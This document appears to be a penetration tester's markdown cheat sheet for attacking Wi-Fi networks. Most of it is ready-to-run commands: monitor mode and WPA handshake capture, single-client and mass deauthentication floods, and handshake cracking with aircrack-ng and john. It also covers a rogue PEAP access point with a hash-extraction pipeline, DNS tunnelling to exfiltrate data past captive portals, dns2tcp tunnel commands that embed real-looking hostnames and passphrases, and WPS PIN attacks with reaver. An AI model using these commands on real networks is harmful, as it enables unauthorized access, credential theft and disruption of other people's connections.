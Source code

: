 # WIFI

## WPA

Capture Handshake using airodump-ng + local crack using john or hashcat =&gt; cleartext password

### 1. monitor mode

`sudo airmon-ng start wlan0`

### 2. listen for specific bssid

`sudo airodump-ng -a mon0`

> find you target bssid \(mac\) and chanel

`airodump-ng -c 6 --bssid <MAC-BOX-CLIENT> --showack -w capture mon0`

> don't forget the -w paramter to save the handshake !!

### 3. DeAUTH

`aireplay-ng mon0 -0 5 -b <MAC-BOX-CLIENT>`

#### DEAUTH specific client device

`aireplay-ng -0 5 -a <MAC-BOX-CLIENT> -c <MAC-DEVICE-CLIENT> mon0`

#### DEAUTH massif \(each client connected at each bssid of an essid\)

`for bssid in cat bssid_deauth.lst; do for mac in cat client_deauth.lst; do aireplay-ng mon.wlan0 -0 5 -a $bssid -c $mac --ignore-negative-one -e <ESSID_CLIENT> ; done ; done`

### 3. Handshaked captured ? go crack it !!

#### 3.1 Crack with aircrack

`aircrack-ng capture-01.cap --wordlist=<wordlist>`

#### 3.2 Crack with john

1. `wpaclean capture.cap-01.clean.cap capture.cap-01.cap`
2. `aircrack-ng capture.cap-01.clean.cap -J capture.cap-01.hccap`
3. `hccap2john capture.cap-01.hccap > capture.cap-01.hccap.john`
4. `john --wordlist=<wordlist> capture.cap-01.hccap.john`

#### 3.2 Crack with hashcat

_**todo**_

## PEAP

1. `apt install hostapd-wpe`
2. Configure same channel and essid than the client's one in hostapd conf
3. Disconnect clients devices 

### Log PEAP : hash client format crackovie

`cat peap_client_log.txt | grep username -A2 | sed '/^--/d' | awk '{print $2}' | tr -d ':' | awk 'NR%3{printf $0":";next;}1' | awk -F ':' '{print $1"::::"$3":"$2}'`

### Reco : GPO validate certificate

## Portail captif

### DNS tunneling to exfiltrate data over the internet

[http://requestbin.net/dns](http://requestbin.net/dns)

## To test \(vrac\)

### PEAP hash replay

* Spoof AP and replay hashed captured
  * Sensepost bearer-ap
  * Sensepost sycophant

### dns2tcp manually

#### création du tunel

dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.128.27 -k _bijour@lexsi_ dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.1.29 -k Q5xTEGHgqa8 ssh rsshdummy@127.0.0.1 -p 9000 -D 9010 -N -i rssh\_dummy\_dv\_new

#### mise en place du proxy local

ssh rssh@127.0.0.1 -p 9000 -D 9010 -N -i rssh.ssh

### WPS

airmon-ng check airmon-ng start wlan1 wifite --showb --wpa --mon-iface wlan0mo airodump-ng -a wlan1mon --wps --essid-regex EDL time reaver -i wlan1mon -c 1 -b E8:FC:AF:9A:C9:B0 -K 1 airodump-ng -a wlan1mon --essid-regex Internet wifite --showb --wpa --mon-iface wlan0mon --aircrack --pyrit --tshark --cowpatty --power 40

airmon-ng check airmon-ng start wlan0 airodump-ng wlan0mon --wps --essid-regex VICTIM reaver -i wlan0mon -c $channel -b $bssid -K 1

### unblock wifi card

```text
sudo nmcli nm wifi off
sudo nmcli radio wifi off
sudo rfkill unblock wlan
```

